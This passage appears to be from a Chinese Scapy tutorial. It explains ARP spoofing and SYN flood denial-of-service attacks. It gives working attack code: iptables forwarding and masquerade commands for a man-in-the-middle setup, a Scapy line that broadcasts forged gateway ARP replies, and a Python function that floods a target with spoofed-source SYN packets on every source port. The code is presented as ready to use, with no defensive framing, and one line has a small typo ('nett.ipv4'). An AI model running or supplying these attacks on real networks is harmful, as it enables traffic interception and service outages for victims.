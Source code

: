 https://juejin.im/entry/588478d5128fe1006c380ec1 
ARP 欺骗攻击，通过向局域网中发送大量伪造了 MAC 和 IP 地址的 ARP 包，诱骗局域网中其它主机将本机当作默认网关，而将其数据发送到本机；

例：
将本机流量转发到默认网关，才能不影响其它主机连接外网：
```
vim /etc/sysctl.conf
```
取消 ”#nett.ipv4.ip_forward=1” 的注释；
增加流量转发规则：
```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables-save
```

发送 ARP 欺骗包
```
# psrc 设为网关的 ip 地址，以伪装成是从网关发出的 ARP 包
# pdst 设为广播地址，则对局域网内所有设备进行攻击，也可设置为某个 ip，只对单一主机进行攻击
# hwsrc 设为本机 MAC 地址，以诱使其它被攻击主机将数据包发送到本机
# hwdst 设为广播 MAC 地址，也可设置为单个 MAC 地址
# srploop() 循环发送该 ARP 包
srploop(ARP(op=2, pdst=attackIP, psrc="192.168.1.100", hdst="FF:FF:FF:FF:FF:FF", hwsrc="00:66:66:66:66:66"), timeout=2)
```

## 11. DDos

### 11.1. SYN Flood Attack

SYN Flood Attack / SYNDdos Attack / SYN 泛洪攻击是一种比较常用的 DdoS 方式之一，通过发送大量**伪造源 IP 地址**的 TCP 连接请求，**使得目标主机建立大量 TCP 半连接**而资源耗尽 （通常是 CPU 满负荷或者内存不足)；

原理：
- TCP 连接需要完成三次握手：正常情况下客户端首先向服务端发送 SYN 报文，随后服务端回以 SYN+ACK 报文到达客户端，最后客户端向服务端发送 ACK 报文完成三次握手；

- 而 SYN 泛洪攻击则是通过使用虚假的源 IP，导致客户端向服务器发送 SYN 报文之后，没有客户端能响应服务器回应的 SYN/ACK 报文（响应发送到了一个虚假的不存在的 IP 上，自然得不到响应)，也就是将 TCP 处在 “半连接” 状态；
由于服务器在处理 TCP 请求时，会在协议栈留一块缓冲区来存储握手的过程，当然如果超过一定的时间内没有接收到客户端的报文，本次连接在协议栈中存储的数据将会被丢弃。攻击者如果利用这段时间发送大量的连接请求，全部挂起在半连接状态。这样将不断消耗服务器资源，直到拒绝服务；



例：
```python
import random
from scapy.all import *

def synFlood(tgt,dPort):
    srcList = ['201.1.1.2','10.1.1.102','69.1.1.2','125.130.5.199']
    for sPort in range(1024,65535):
        index = random.randrange(4)
        ipLayer = IP(src=srcList[index], dst=tgt)
        tcpLayer = TCP(sport=sPort, dport=dPort,flags="S")
        packet = ipLayer / tcpLayer 
        send(packet)
```
